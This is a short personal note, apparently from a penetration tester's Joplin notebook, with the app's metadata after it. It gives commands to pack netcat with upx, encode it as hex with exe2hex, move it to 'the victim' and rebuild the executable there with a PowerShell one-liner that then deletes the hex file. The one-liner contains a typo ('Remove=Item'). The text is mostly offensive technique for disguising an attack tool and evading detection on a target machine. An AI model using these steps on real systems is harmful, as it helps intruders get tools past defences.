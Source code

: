 Upload by Hex Content

## For concealing what the exe file is, and rebuilding the file in the victim

First use upx to reduce the size of the file, but maintain its operability

> upx -9 nc.exe

Then convert the EXE to a file with HEX values. Use the .cmd for reference

> exe2hex -x nc.exe -p nc.cmd

Once the file is transferred, run the program (using command prompt), and then compile it to nc.exe with powershell

> ./nc.cmd
> 
> `powershell -Command "$h=Get-Content -readcount 0 -path './nc.hex'; $l=$h\[0\].length;$b=New-Object byte\[\] ($l/2);$x=0;for ($i=0;$i -le $l-1;$i+=2){$b\[$x\]=\[byte\]::Parse($h\[0\].Substring($i,2),\[System.Globalization.NumberStyles\]::HexNumber);$x+=1}; Set-Content -encoding byte 'nc.exe' -value $b; Remove=Item -force nc.hex;"`


id: 3822cc0f7b034c9182855c18663965d9
parent_id: 819fca2060d64809bbdac4fc93fdd86a
created_time: 2022-01-28T02:01:40.100Z
updated_time: 2022-08-07T14:37:14.494Z
is_conflict: 0
latitude: 0.00000000
longitude: 0.00000000
altitude: 0.0000
author: 
source_url: 
is_todo: 0
todo_due: 0
todo_completed: 0
source: joplin-desktop
source_application: net.cozic.joplin-desktop
application_data: 
order: 0
user_created_time: 2022-01-28T02:01:40.100Z
user_updated_time: 2022-08-07T14:37:14.494Z
encryption_cipher_text: 
encryption_applied: 0
markup_language: 1
is_shared: 0
share_id: 
conflict_original_id: 
master_key_id: 
type_: 1